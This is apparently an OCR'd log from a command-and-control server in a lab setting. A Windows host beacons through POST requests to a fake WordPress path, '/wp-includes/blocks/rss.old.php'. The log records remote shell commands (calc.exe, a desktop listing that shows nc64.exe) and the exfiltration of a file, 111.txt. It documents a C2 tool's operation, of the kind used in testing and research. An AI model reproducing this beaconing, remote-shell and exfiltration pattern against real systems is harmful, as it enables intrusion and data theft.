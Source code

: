 ```plain
[GIN] 2024/02/26 - 13:43:43 |[97;42m 200 [0m|     15.2158ms | 192.168.153.130 |[97;46m POST    [0m "/wp-includes/blocks/rss.old.php"
307b5c9a
[GIN] 2024/02/26 - 13:43:50 |[97;42m 200 [0m|      2.0944ms | 192.168.153.130 |[97;46m POST    [0m "/wp-includes/blocks/rss.old.php"
307b5c9a
Microsoft Windows [�汾 6.1.7601]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����

C:\Windows\system32>chcp 437 > NUL

C:\Windows\system32>calc.exe

C:\Windows\system32>exit

[GIN] 2024/02/26 - 13:43:53 |[97;42m 200 [0m|      1.0216ms | 192.168.153.130 |[97;46m POST    [0m "/wp-includes/blocks/rss.old.php"
307b5c9a
[GIN] 2024/02/26 - 13:44:00 |[97;42m 200 [0m|      1.9848ms | 192.168.153.130 |[97;46m POST    [0m "/wp-includes/blocks/rss.old.php"
307b5c9a
Microsoft Windows [�汾 6.1.7601]
��Ȩ���� (c) 2009 Microsoft Corporation����������Ȩ����

C:\Windows\system32>chcp 437 > NUL

C:\Windows\system32>dir C:\Users\admin\Desktop
 Volume in drive C has no label.
 Volume Serial Number is DEA8-B705

 Directory of C:\Users\admin\Desktop

2024/02/26  11:31    <DIR>          .
2024/02/26  11:31    <DIR>          ..
2024/02/22  23:13               507 111.txt
2011/09/29  09:22            32,256 apateDNS.exe
2019/01/23  23:23            45,272 nc64.exe
2023/11/27  14:41             2,182 Process Hacker 2.lnk
2023/11/27  14:39    <DIR>          snapshot_2023-11-18_02-28
2023/11/27  14:40             1,315 x96dbg.exe - ????.lnk
              15 File(s)     14,600,939 bytes
               4 Dir(s)  49,213,665,280 bytes free

C:\Windows\system32>exit

[GIN] 2024/02/26 - 13:44:00 |[97;42m 200 [0m|      1.9138ms | 192.168.153.130 |[97;46m POST    [0m "/wp-includes/blocks/rss.old.php"
307b5c9a
[GIN] 2024/02/26 - 13:44:06 |[97;42m 200 [0m|       652.7µs | 192.168.153.130 |[97;46m POST    [0m "/wp-includes/blocks/rss.old.php"

[GIN] 2024/02/26 - 13:44:06 |[97;42m 200 [0m|         521µs | 192.168.153.130 |[97;46m POST    [0m "/wp-includes/blocks/rss.old.php"
307b5c9a
[GIN] 2024/02/26 - 13:44:08 |[97;42m 200 [0m|      3.0731ms | 192.168.153.130 |[97;46m POST    [0m "/wp-includes/blocks/rss.old.php"
307b5c9a [+] File C:\Users\admin\Desktop\111.txt posted

[GIN] 2024/02/26 - 13:44:08 |[97;42m 200 [0m|      1.4707ms | 192.168.153.130 |[97;46m POST    [0m "/wp-includes/blocks/rss.old.php"
307b5c9a
```
